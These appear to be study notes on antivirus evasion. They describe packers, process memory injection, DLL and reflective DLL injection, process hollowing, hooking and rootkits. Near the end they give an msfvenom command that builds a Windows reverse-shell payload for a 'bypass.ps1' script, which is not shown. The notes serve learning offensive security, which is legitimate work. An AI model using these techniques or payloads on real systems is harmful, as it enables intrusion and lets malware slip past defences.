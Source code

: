 ## On-disk evasion
- Packers, obfuscators, crypter
- Anti-reversing, anti-debugging, virtual machine emulation detection.
- Software protectors like anti-copy
- The Enigma Protector

## In-Memory evation**

- **Remote Process Memory Injection** attempts to inject the payload into another valid PE that is not malicious.
 1. By leveraging a set of Windows API, first, use the **OpenProcess** function to obtain a valid **HANDLE** to a target process that we have permission to access.

 2. After obtaining the HANDLE, allocate memory in the context of that process by calling a Windows API such as **VirtualAllocEx**.

 3. Once the memory has been allocated in the remote process, copy the malicious payload to the newly allocated memory using **WriteProcessMemory**.

 4. After the payload has been successfully copied, it is usually executed in memory in a separate thread using the **CreateRemoteThread** API.

- **Regular DLL injection** involves loading a malicious DLL from disk using the **LoadLibrary** API

- **Reflective DLL Injection** technique attempts to load a DLL stored by the attacker in the process memory. The main challenge is that **LoadLibrary** does not support loading a DLL from memory. Attackers must write their own version of the API that does not rely on a disk-based DLL.

- **Process Hollowing**: first launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from memory and replaced with a malicious executable image. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.

- **Inline hooking** involves modifying memory and introducing a hook (an instruction that redirects the code execution) into a function to make it point to our malicious code. Upon executing our malicious code, the flow will return back to the modified function and resume execution, appearing as if only the original code had executed. Hooking is a technique often employed by **rootkits**.

Rootkits aim to provide dedicated and persistent access to the target system through modification of system components in user space, kernel, or even at lower OS protection rings such as boot or hypervisor. Since rootkits need administrative privileges to implant its hooks, it is often installed from an elevated shell.

## Evading AV with Thread Injection

Shellcode for `bypass.ps1` script

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

Remote process memory injection technique: target the currently executing process (the x86 PowerShell interpreter)

`bypass.ps1`
